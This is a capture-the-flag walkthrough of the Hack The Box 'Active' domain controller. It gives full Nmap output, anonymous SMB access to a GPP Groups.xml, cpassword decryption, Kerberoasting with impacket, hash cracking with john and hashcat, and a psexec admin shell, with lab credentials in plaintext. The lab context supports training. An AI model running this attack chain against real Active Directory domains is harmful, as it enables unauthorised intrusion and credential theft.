Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.129.13.232
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-04 00:50 CDT
Nmap scan report for 10.129.13.232
Host is up (0.17s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49162/tcp open  unknown
49166/tcp open  unknown
49168/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.07 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49162,49166,49168 10.129.13.232
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-04 00:53 CDT
Stats: 0:00:56 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 59.09% done; ETC: 00:54 (0:00:39 remaining)
Nmap scan report for 10.129.13.232
Host is up (0.17s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-04 05:53:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49162/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-04T05:54:24
|_  start_date: 2026-04-04T05:48:25
|_clock-skew: -1s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.30 seconds
```

### Footprinting SMB[](https://0xkrakenn.github.io/posts/HackTheBox-Active/#footprinting-smb)

Attempting to enumerate SMB shares via anonymous access.

```sh
smbclient -N -L //10.129.13.232/
```



We have some folders let’s see them. Then I try to access /Replication with the help smbclient and run the following command to access this directory via anonymous login:

```sh
smbclient //10.129.13.232/Replication
```





Here I downloaded Groups.xml file which I found from inside the following path:

`\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

So here I found **cpassword** attribute value embedded in the Groups.xml for user **SVC_TGS**.



Now we need to decrypt this password via `gpp-decrypt`



`active.htb\SVC_TGS : GPPstillStandingStrong2k18`

### Access Victim’s Shell via SMB connect

Using the above credential we connect to SMB with the help of the following command and successfully able to catch our 1st flag “user.txt” file.





### Privilege Escalation - Kerberoasting

In nmap scanning result we saw port 88 was open for Kerberos, hence there must be some Service Principal Names (SPN) that are associated with the normal user account. Therefore we downloaded and install impacket from Github for using its python class **GetUserSPN.py**

```sh
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.13.232 -request
```



Decrypting the hash.

```sh
john administrator_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

OR

```sh
hashcat -m 13100 administrator_hash.txt /usr/share/wordlists/rockyou.txt
```





`Admnistrator : Ticketmaster1968`

Now, let’s attempt to access the machine using PsExec with the credentials we found.

```sh
impacket-psexec active.htb/administrator@10.129.13.232
```



Reference link :

https://www.hackingarticles.in/hack-the-box-active-walkthrough/

https://0xkrakenn.github.io/posts/HackTheBox-Active/